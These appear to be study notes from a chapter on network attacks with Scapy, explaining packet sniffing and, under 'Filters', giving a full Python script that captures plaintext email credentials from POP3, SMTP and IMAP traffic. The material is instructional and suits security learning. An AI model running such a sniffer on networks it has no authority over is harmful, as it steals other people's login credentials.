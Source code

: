 The code above shows an example of using Scapy's `sniff()` function to capture and analyze network traffic. The `packet_callback()` function is defined to process each packet captured by the sniffer. In this example, the `count` parameter is set to 1, so the sniffer will stop after capturing a single packet.

When `main()` is called, it invokes `sniff()` and passes `packet_callback()` as the argument for `prn`. This means that `packet_callback()` will be called for every packet captured by the sniffer. In this example, `packet.show()` is called for each packet to display its contents.

## Filters

![Screenshot 2023-06-21 at 11.02.23 AM.png](Chapter%204%20Owning%20the%20Network%20With%20Scapy%20ec1c8a20fb7a4e9ca6332b299dcacb1a/Screenshot_2023-06-21_at_11.02.23_AM.png)

```python
from scapy.all import sniff, TCP, IP

# the packet callback
def packet_callback(packet):
    if packet[TCP].payload:
        mypacket = str(packet[TCP].payload)
        if 'user' in mypacket.lower() or 'pass' in mypacket.lower():
            print(f"[*] Destination: {packet[IP].dst}")
            print(f"[*] {str(packet[TCP].payload)}")

def main():
    # fire up the sniffer
    sniff(filter='tcp port 110 or tcp port 25 or tcp port 143',
          prn=packet_callback, store=0)

if __name__ == '__main__':
    main()
```

The code above uses Scapy to create a sniffer that captures SMTP, POP3, and IMAP credentials from network traffic. The `packet_callback()` function is defined to process each packet captured by the sniffer. In this example, the `filter` parameter is set to capture traffic on common **email ports** **110(POP3)**, **25(SMTP)**, and **143(IMAP)**. When a packet is captured, the `packet_callback()` function checks if it contains the words "user" or "pass". If it does, it prints the destination IP address and the payload of the packet.
